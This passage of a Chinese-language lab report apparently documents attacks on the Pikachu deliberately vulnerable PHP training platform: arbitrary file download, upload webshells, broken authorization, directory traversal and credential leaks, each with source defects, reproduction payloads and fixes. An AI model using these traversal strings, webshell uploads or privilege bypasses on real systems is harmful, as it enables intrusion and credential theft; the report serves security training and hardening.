

### 修复建议

- 包含的文件名不要来自用户输入，改成「白名单映射」：`$map=['home'=>'home.php','about'=>'about.php']; $file=$map[$_GET['page']] ?? 'home.php';`。
- 必须动态时：`basename()` 去目录 + 后缀白名单 + `realpath()` 后校验前缀是否在允许目录内。
- php.ini：`allow_url_include=Off`、`allow_url_fopen=Off`、`open_basedir` 限定到站点目录。
- 上传目录禁止 PHP 解析（`php_admin_flag engine off`），这样即便落了图片马也无法被 include 执行。

## 7. 任意文件下载 Unsafe Download {#m7}

`风险：高危`　`CWE-22 路径穿越`

`download/{$_GET['filename']}` 这种拼法，`../` 一路向上就能出 web 根。本机实测：3 级 `../` 到 `pikachu/inc/config.inc.php`（直接泄露数据库口令），6 级到 `D:\` 根读任意文件。

### 源码缺陷

- vul/unsafedownload/execdownload.php:10-18 —— `$file_path="download/{$_GET['filename']}";` 之后 `file_exists()` 直接放行，fopen/fread 分段回显，`Content-Disposition` 里的 filename 还是 `basename($file_path)`。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `dl01-traversal` | `filename=../../../../../../pika_secret.txt` | HTTP 200, 20 字节 |
| `dl02-source` | `filename=../../../inc/config.inc.php` | &lt;?php //全局session_start session_start(); //全局居设置时区 date_default_timezone_set('Asia/Shanghai'); //全局设置默认字符 header('Conten |

**dl01-traversal** — 任意文件下载：filename 未过滤 -> 越过 web 根读 D:\ 下文件



**dl02-source** — 任意文件下载 -> 直接拿到数据库配置文件(口令泄露)



### 修复建议

- `$name = basename($_GET['filename']);` 先把目录剥掉，再拼固定前缀目录。
- 白名单后缀 + `realpath($path)` 后必须 `str_starts_with($real, $allowDir)`，双重校验。
- 文件用随机 ID 索引（数据库存 id→真实路径），对外不暴露任何路径；下载接口要求登录 + 权限校验（防水平越权下载他人文件）。
- 下载目录放 web 根外，或由 Nginx/Apache 的 `X-Accel-Redirect`/`X-Sendfile` 内部转发。

## 8. 不安全文件上传 Unsafe Upload {#m8}

`风险：严重`　`CWE-434 任意文件上传`

三个页面对应三种校验强度：只做前端 JS 校验、服务端只查客户端 Content-Type、以及「后缀白名单 + MIME + getimagesize」三件套。前两个直接落地 PHP 拿到 RCE；第三个虽然挡住了 .php，但可以上传图片马（GIF89a 头 + PHP 代码，后缀改成 .jpg），再配合文件包含执行 —— 这是上传类漏洞最经典的组合拳。

### 源码缺陷

- inc/uploadfunction.php:31 —— `move_uploaded_file($_FILES[$key]['tmp_name'], $save_path.$_FILES[$key]['name'])`：沿用原始文件名，不做任何后缀/MIME 校验（upload_client）。
- inc/uploadfunction.php:64 —— `if(!in_array($_FILES[$key]['type'],$mime))`：只信浏览器提交的 Content-Type（upload_sick）。
- inc/uploadfunction.php:118-136 —— upload() 做后缀白名单 + MIME 白名单 + `getimagesize()`，但后缀被强制成 jpg/jpeg/png，且文件名被 uniqid 重命名。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `up01-client` | `POST shell.php -> uploads/shell.php` | PIKA-RCE-OK:laptop-a0qf3dlp\wo2025 |
| `up02-server` | `s2.php 伪装 image/png -> uploads/s2.php` | PIKA-RCE-OK:laptop-a0qf3dlp\wo2025 |
| `up03-getimagesize` | `img_shell.jpg -> uploads/2026/11/11/6817106af47dfe8e016539159636.jpg -> fi_local 包含` | php 被拒:png中的一个 Pikachu PIKA~ PIKA~© runner.han \| 含路径:uploads/2026/11/11/6817106af47dfe8e016539159636.jpg \| 包含结果:nt Tracy McGrady Ray Allen Pikachu P |

**up01-client** — 客户端校验：前端只查后缀，抓包直传 shell.php 即可 RCE



**up02-server** — 服务端 MIME 校验：只信 Content-Type，改成 image/png 即绕过


**up03-getimagesize** — getimagesize+后缀白名单：图片马落地，配合文件包含 getshell



### 修复建议

- 服务端做三重校验：后缀白名单（用 `pathinfo()` 取扩展名并转小写）、真实 MIME（`finfo_file()` 读文件头，不信 `$_FILES['type']`）、图片再加工（`imagecreatefrom*` 重新渲染，彻底洗掉内嵌代码）。
- 落盘文件名由服务端生成（`bin2hex(random_bytes(8))` + 白名单后缀），永久丢弃用户原始文件名；上传目录放在 web 根之外。
- 上传目录禁止执行脚本：Apache `php_admin_flag engine off`；Nginx `location ~* /uploads/.*\.(php|phtml)$ { deny all; }`。
- 限制大小与数量、校验图片真实尺寸、对上传内容做 AV 扫描；下载/预览走带鉴权的代理接口。

## 9. 越权访问 Over Permission {#m9}

`风险：高危`　`CWE-639 授权绕过 / CWE-285 缺失授权`

越权分水平与垂直两种。Pikachu 的 op1 是水平越权：个人信息页从 GET 参数里取 username，不跟当前登录态做任何绑定，登录任意账号都能查任意人的资料；op2 是垂直越权：管理员接口只校验「是否登录」，不校验「是不是管理员」，普通用户 pikachu/000000 直接调用 `op2_admin_edit.php` 就能新建账号。

### 源码缺陷

- vul/overpermission/op1/op1_mem.php:25-28 —— `if(isset($_GET['submit']) && $_GET['username']!=null){ $query="select * from member where username='$username'"; }`，源码注释原文：「没有使用session来校验,而是使用的传进来的值，权限校验出现问题」。
- vul/overpermission/op1/op1_login.php:32 —— 登录查的是 `member` 表（不是 `users` 表），所以 op1 必须用 member 里的账号（vince/123456）。
- vul/overpermission/op2/op2_admin_edit.php:26-29 —— 只调用 `check_op2_login($link)`，随后直接 `insert into member(...)`，没有 `check_op2_admin()` 之类的角色判断。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `op1-horizontal` | `op1_mem.php?username=kobe (当前登录 vince)` | r 点一下提示~ 欢迎来到个人信息中心 \| 退出登录 hello,kobe,你的具体信息如下： 姓名:kobe 性别:boy 手机:15988767673 住址:nba lakes 邮箱:kobe@pikachu.com Pikachu PIKA~ PIKA~© runner.han |
| `op2-vertical` | `op2_admin_edit.php POST username=hacker01` | 库中新增:(('hacker01', 'hacker@evil.com'), ('hacker01', 'hacker@evil.com'), ('hacker01', 'hacker@evil.com'), ('hacker01', 'hacker@evil.com')) |

**op1-horizontal** — 水平越权：改 username 参数即可看他人资料(未与登录态绑定)



**op2-vertical** — 垂直越权：普通用户直接访问管理员接口建号



### 修复建议

- 身份永远从服务端会话取：`$uid=$_SESSION['user_id'];`，禁止用请求参数决定「我要操作谁」。
- 对象级授权：查到资源后判断 `resource.owner_id == $current_user_id`，否则 403；管理员操作必须走角色校验（`in_array('admin', $roles)`）。
- 统一授权中间件/装饰器，路由层按「角色 + 资源」声明权限，避免每个页面各写一套。
- 管理接口与前台接口分域部署（不同端口/不同域名/VPN 内网），降低越权被发现与利用的面。

## 10. 目录遍历 Directory Traversal {#m10}

`风险：中危`　`CWE-22 路径穿越`

`require "soup/$title"` —— 把用户输入直接放进 require 的路径里。4 级 `../` 就能读 `Windows/win.ini`。因为走的是 require，读到 PHP 文件会被当代码执行，读到非 PHP 文件则原样输出，信息泄露与代码执行两种后果都可能。

### 源码缺陷

- vul/dir/dir_list.php:19-22 —— `$filename=$_GET['title']; require "soup/$filename";`



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `dir01-traversal` | `title=../../../../Windows/win.ini` | Pikachu 漏洞练习平台 pika~pika~ 欢迎 骚年 系统介绍 暴力破解 Cross-Site Scripting CSRF SQL-Inject RCE File Inclusion Unsafe Filedownload Unsafe File |

**dir01-traversal** — 目录遍历：require "soup/$title" 无过滤



### 修复建议

- 文件名用白名单映射（`['jarheads'=>'jarheads.php','truman'=>'truman.php']`），不合法就回默认页。
- 必须拼路径时：`basename()` + `realpath()` 前缀校验 + 后缀白名单，且优先用 `include` 加载固定目录下的文件。
- 目录列表功能不要用 `require`，用 `scandir()` 得到列表再渲染；`open_basedir` 限定可访问范围。

## 11. 敏感信息泄露 Sensitive Info Disclosure {#m11}

`风险：中危`　`CWE-200 敏感信息暴露 / CWE-522 凭据保护不足`

Pikachu 的信息泄露有两个典型：登录成功后把「明文用户名 + 密码的 MD5」写进 cookie（客户端完全可读），以及数据库配置、PHP 版本、报错信息等直接暴露给访问者。前者等于把凭据的一半交给攻击者，配合弱口令或彩虹表可直接还原原口令。

### 源码缺陷

- vul/infoleak/findabc.php:32-34 —— `setcookie('abc[uname]',$_GET['username']); setcookie('abc[pw]',md5($_GET['password']));`
- 同目录 `abc.php` 依赖这两个 cookie 判断身份，所以 cookie 既是凭据载体又是认证依据。
- `inc/config.inc.php` 里的 DBHOST/DBUSER/DBPW 明文，一旦配合任意文件下载（模块 7）即可读取。

